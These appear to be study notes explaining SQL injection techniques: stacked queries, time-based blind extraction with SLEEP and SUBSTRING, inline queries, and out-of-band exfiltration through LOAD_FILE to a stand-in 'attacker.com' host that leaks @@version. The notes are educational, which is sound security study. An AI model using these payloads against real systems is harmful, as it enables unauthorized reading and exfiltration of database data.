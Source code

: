>>```
>
>Stacked SQLi is special because it allows attackers to go beyond reading data - they can modify the database: `INSERT` new rows, `UPDATE` records, `DELETE` tables, and `CREATE` new users
>
>##### Time-based blind SQL Injection
>>[!exploit]
>>The attacker can't see any direct output from the database, but can still extract data by making the database "wait" (or delay) for a certain amount of time based on a condition.
>
>Eg, this injection (via https://example.com/profile.php?id=1)
>```sql
>?id=1 AND IF(1=1, SLEEP(5), 0)-- 
>```
>Would cause the page to load slowly (5 seconds) if the injection works.
>
>And this:
>```sql
>?id=1 AND IF(SUBSTRING((SELECT user()), 1, 1) = 'r', SLEEP(5), 0)-- 
>```
>Would cause a 5 second delay if the first letter of the DB user is `'r'`. You can then repeat the process to extract the subsequent characters (using SUBSTRING):
>```sql
>?id=1 AND IF(SUBSTRING(USER(), 2, 1) = 'a', SLEEP(5), 0)-- 
>```
>
>##### Inline queries
>>[!exploit]
>>A SQL query embedded within the original query.
>These are uncommon because they require the vulnerable web app to be written in a certain way.
>
>For example (ignore backslash):
>```sql
>SELECT username, 
>       (SELECT COUNT(\*) FROM logins WHERE user_id = users.id) AS login_count
>FROM users;
>```
>
>##### Out-of-band SQL injection
>>[!exploit]
>>An attack can exfiltrate data through alternative channels, like DNS requests, HTTP requests and file writes.
>
>Typically used when all other techniques fail or are impractical (eg time-based). For example:
>```sql
>SELECT LOAD_FILE('\\\\attacker-server.com\\file');
>```
>If the server reaches out, it leaks the fact that the injection worked - and may included data (eg `@@version`) in the subdomain part of the requested path:
>```sql
>LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
>```
###### SQLMap
